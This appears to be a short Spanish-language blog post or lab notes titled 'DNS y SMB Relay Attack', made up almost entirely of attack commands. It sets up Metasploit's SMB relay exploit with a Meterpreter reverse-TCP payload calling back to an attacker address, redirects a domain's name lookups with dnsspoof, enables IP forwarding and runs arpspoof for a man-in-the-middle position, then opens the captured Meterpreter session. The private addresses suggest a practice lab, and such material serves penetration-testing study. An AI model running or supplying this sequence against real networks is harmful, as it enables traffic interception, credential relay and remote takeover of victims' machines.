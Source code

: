 ```yaml
---
title: 'DNS y SMB Relay Attack'
description: ''
pubDate: 'May 12 2023'
heroImage: '/'
slug: 'dns_smb_relay_attack'
---
```


```bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit

```

ahora para rederigir a la victima a nuestro sistema Metasploit cada vez que haga una conexión a cualquier host en el dominio usamos **dnsspoof**

```bash
echo "172.16.5.101 *.sportsbass.com" > dns

# luego corremos nuestro dns

dnsspoof -i eth1 -f dns

```

luego activamos **MITM**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

#
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5

```

conseguir una sesion meterpreter

```bash
sessions
sessions -i 1
getuid
```
